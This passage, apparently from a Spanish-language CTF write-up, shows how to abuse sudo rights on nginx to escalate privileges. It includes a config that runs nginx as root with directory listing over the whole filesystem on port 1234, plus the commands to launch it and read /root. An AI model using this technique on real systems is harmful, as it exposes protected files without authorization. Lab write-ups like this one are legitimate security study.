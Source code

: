 Si ejecutamos nginx vemos que falla porque el puerto 80 está ocupado:

![image](https://github.com/user-attachments/assets/255f72c9-e726-4690-861d-fab6a87f6851)


Si revisamos la ayuda de este programa vemos que una opción (-c) que permite especificar un archivo de configuración:

![image](https://github.com/user-attachments/assets/890cfc04-1c26-4262-8ebc-dd8183ac162e)


### 🎯 Explotación de nginx con sudo

Podemos abusar de esto creando una copia del archivo original de tal forma que podríamos iniciar nginx en otro puerto y con otras configuraciones que definamos:
```bash
cp /etc/nginx/nginx.conf /tmp/
```

Establecemos la siguiente configuración en el fichero, de forma que lo que estamos haciendo es definir una nueva configuración para el usuario root que levante una nueva instancia de nginx en el puerto 1234 habilitando el directory listing:

```bash
user root;

events {
    worker_connections 768;
    # multi_accept on;
}

http {

    server {
    listen    1234;
    root /;
    autoindex on;
    }
}
```


Lanzamos nginx especificando la configuración que hemos creado con el parámetro -c


```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
```


De tal forma que si ahora accedemos desde nuestro host de ataque al puerto 1234 del host comprometido podremos realizar directory listing y acceder al directorio /root para capturar la flag:

![[Pasted image 20250507202842.png]]
